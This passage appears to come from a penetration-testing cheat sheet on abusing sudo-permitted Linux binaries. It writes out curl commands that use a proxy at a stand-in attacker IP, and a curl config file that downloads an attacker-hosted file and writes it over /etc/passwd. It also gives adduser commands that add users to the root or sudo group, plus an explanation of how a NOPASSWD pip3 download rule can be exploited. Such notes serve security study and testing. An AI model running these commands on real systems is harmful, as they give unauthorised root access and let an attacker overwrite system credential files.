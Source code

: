 <pre class="language-sh"><code class="lang-sh"><strong># Env variables
</strong><strong>curl http_proxy=http://$ATTACKING_IP:8080 http://URL/path/file
</strong># Intercept the request/response and modify them if necessary

# curl -K config file
└─$ curl --help all | grep -E '\-K|-o,' 
 -K, --config &#x3C;file>                               Read config from a file
 -o, --output &#x3C;file>                               Write to file instead of stdout
 
$ curl -K file

$ cat file 
url = "http://$ATTACKING_IP/passwd"
output = "/etc/passwd"
</code></pre>

## rsync

Research all parameters on help/man, for example --chown changes the owner of the copied files.

## pip3 download

{% code overflow="wrap" fullWidth="true" %}
```
how could the following sudo command be exploited? "NOPASSWD: /usr/bin/pip3 download http://127.0.0.1:3000/*.tar.gz"

Command injection: If the input for the download URL is not properly validated, an attacker can inject additional commands or exploit vulnerabilities in the download functionality. This could lead to arbitrary code execution on the system.

Malicious package: If the downloaded package is not validated or originates from an untrusted source, an attacker could create a malicious package that executes arbitrary code during installation. This could potentially lead to a privilege escalation or compromise of the system.

To mitigate these risks, it is crucial to ensure proper validation and sanitization of input, implement strict access controls, validate downloaded packages, and review and restrict the usage of the "NOPASSWD" directive in the sudoers file.
```
{% endcode %}

## adduser

```
sudo adduser myuser --gid 0
sudo adduser --ingroup root myuser
sudo adduser --no-create-home --ingroup sudo myuser
```

## hping3
